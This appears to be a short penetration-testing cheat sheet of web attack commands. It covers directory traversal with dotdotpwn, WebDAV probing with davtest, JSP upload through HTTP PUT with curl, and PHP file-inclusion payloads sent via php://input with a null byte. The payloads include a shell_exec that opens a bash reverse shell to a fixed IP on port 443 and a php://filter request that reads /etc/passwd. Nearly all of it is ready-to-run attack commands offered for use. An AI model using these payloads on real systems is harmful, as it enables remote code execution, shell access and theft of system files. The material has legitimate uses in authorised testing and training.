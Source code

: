 # Web
## Directory Traversal

```bash
dotdotpwn -m http -h <host-ip> -o windows

# create list with directories
dotdotpwn -m stdout -d 8 -o windows > ddp_traversal
```

## File Inclusion

```bash
# check vor DAV upload vulns
davtest -url <host-ip> -move
```

### PUT

Using curl

```bash
curl -X PUT http://website:8080/test.jsp/ -d @- < test.jsp

curl --cookie "JSESSIONID=CFD11DB259AABD57E38AE7ED5935B691" -X PUT http://website:8080/test.jsp/
-d @- < test.jsp
```


## PHP Inclusion

```bash
curl -s --data "<?system('ls -la');?>" "http://website/admin.php?ACS_path=php://input%00"
```

sometimes only traffic on web port allowed

```bash
curl -s --data "<? shell_exec('bash -i >& /dev/tcp/10.11.0.61/443 0>&1') ?>" "http://website/admin.php?ACS_path=php://input%00
```

read files from system

```bash
https://website/section.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00
```

using kadismus

```bash
./kadimus -t https://website/section.php?page=php://input%00 --inject-at page -C '<?php echo "pwned"; ?>' -X input
```
